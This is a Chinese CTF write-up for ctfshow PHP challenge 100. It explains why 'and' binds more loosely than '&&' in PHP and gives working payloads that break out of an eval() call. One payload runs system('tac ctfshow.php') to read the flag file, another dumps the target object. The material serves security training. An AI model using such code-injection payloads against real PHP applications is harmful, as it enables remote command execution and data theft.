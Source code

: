 ## 100-ReflectionClass

```php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}
```

提示flag在类ctfshow里，并且已经new给变量$ctfshow了
要求v1，v2，v3是数字，并且对分号进行过滤

这里学习了下yu师傅的博客：
[CTFSHOW PHP特性篇（上篇 89-110）羽的博客-CSDN博客_ctfshow php特性](https://blog.csdn.net/miuzzx/article/details/109168454)

考点1：`and`和`&&`的区别

`$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);`

```php
<?php
$a=true and false and false;
var_dump($a);  返回true

$a=true && false && false;
var_dump($a);  返回false
```



解法1：过滤比较简单，构造闭合rce

```
?v1=1&v2=?><?= system('tac ctfshow.php')?>&v3=;
```

解法2：提示flag在类ctfshow里，并且已经new给变量$ctfshow了
可以直接输出$ctfshow的值：

```
?v1=1&v2=var_dump($ctfshow)?>&v3=;
```

解法3：反射类`ReflectionClass`的使用 [PHP: ReflectionClass - Manual](https://www.php.net/manual/zh/class.reflectionclass.php)
